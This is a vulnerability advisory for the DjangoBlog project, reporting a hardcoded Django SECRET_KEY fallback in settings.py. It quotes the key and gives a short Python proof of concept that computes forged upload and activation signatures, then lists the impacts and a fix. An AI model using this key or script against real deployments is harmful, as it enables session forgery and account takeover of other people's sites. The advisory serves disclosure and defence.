

# Vuln-3: Hardcoded Django SECRET_KEY

**Project:** DjangoBlog (https://github.com/liangliangyy/DjangoBlog)
**Version:** Latest master (commit `06f76ea`)
**Date:** 2026-03-14
**Severity:** HIGH
**OWASP:** A02:2021 - Cryptographic Failures
**CWE:** CWE-798 - Use of Hard-coded Credentials

---

## Affected File

```
djangoblog/settings.py (lines 31-32)
```

## Root Cause

The `SECRET_KEY` uses a hardcoded fallback value when the `DJANGO_SECRET_KEY` environment variable is not set:

```python
SECRET_KEY = os.environ.get('DJANGO_SECRET_KEY') or 'n9ceqv38)#&mwuat@(mjb_p%em$e8$qyr#fw9ot!=ba6lijx-6'
```

This key is used to sign session cookies, CSRF tokens, password reset tokens, and email confirmation signatures. Since the fallback is committed to a public repository, any deployment that omits the environment variable uses a globally known secret.

## Steps to Reproduce

```python
python3 -c "
import hmac, hashlib
SECRET_KEY = 'n9ceqv38)#&mwuat@(mjb_p%em\$e8\$qyr#fw9ot!=ba6lijx-6'
def get_sha256(value):
    key = SECRET_KEY.encode('utf-8')
    msg = str(value).encode('utf-8')
    return hmac.new(key, msg, hashlib.sha256).hexdigest()
print('File upload signature:', get_sha256(get_sha256(SECRET_KEY)))
print('User ID=1 activation signature:', get_sha256(get_sha256(SECRET_KEY + '1')))
"
```


## Impact

- **Session forgery:** Attacker crafts session cookies to impersonate any user, including superadmins.
- **CSRF bypass:** Attacker computes valid CSRF tokens.
- **Account takeover:** Attacker forges email verification signatures to activate arbitrary accounts.
- **Enables Vuln-11:** The file upload signature is derived from this key.

## Recommended Fix

Remove the fallback value. Require `DJANGO_SECRET_KEY` as a mandatory environment variable; fail on startup if absent.

---

## References

- [OWASP Top 10 (2021)](https://owasp.org/Top10/)
- [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)
- [Django Security Best Practices](https://docs.djangoproject.com/en/stable/topics/security/)
- DjangoBlog source: https://github.com/liangliangyy/DjangoBlog
